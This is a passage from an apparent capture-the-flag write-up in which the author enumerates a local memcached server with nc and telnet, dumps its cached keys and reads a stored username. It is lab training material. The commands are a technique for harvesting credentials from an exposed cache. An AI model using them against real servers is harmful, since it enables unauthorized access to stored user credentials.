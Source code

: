 ```text
STAT moves_to_cold 1225
STAT moves_to_warm 0
STAT moves_within_lru 0
STAT direct_reclaims 0
STAT lru_bumps_dropped 0
END
```

```text
ash@cache:/dev/shm$ echo "stats slabs" | nc -vn 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
STAT 1:chunk_size 96
STAT 1:chunks_per_page 10922
STAT 1:total_pages 1
STAT 1:total_chunks 10922
STAT 1:used_chunks 5
STAT 1:free_chunks 10917
STAT 1:free_chunks_end 0
STAT 1:mem_requested 371
STAT 1:get_hits 0
STAT 1:cmd_set 1235
STAT 1:delete_hits 0
STAT 1:incr_hits 0
STAT 1:decr_hits 0
STAT 1:cas_hits 0
STAT 1:cas_badval 0
STAT 1:touch_hits 0
STAT active_slabs 1
STAT total_malloced 1048576
END
ash@cache:/dev/shm$ echo "stats cachedump 1 0" | nc -vn 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
^C
```

echoing a command to the service running seemed a bit awkward, so I tried running the command like `memcached stats`. It seemed to be doing something, but waited for a long time. I did some more reading and found that you could use telnet to interact with it. _\(I should have tried that on my own...if nc can interact then ssh and telnet should be able to...\)_

[https://niiconsulting.com/checkmate/2013/05/memcache-exploit/](https://niiconsulting.com/checkmate/2013/05/memcache-exploit/) [https://www.hackingarticles.in/penetration-testing-on-memcached-server/](https://www.hackingarticles.in/penetration-testing-on-memcached-server/)

```text
ash@cache:/dev/shm$ telnet 127.0.0.1 11211
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
get user
VALUE user 0 5
luffy
```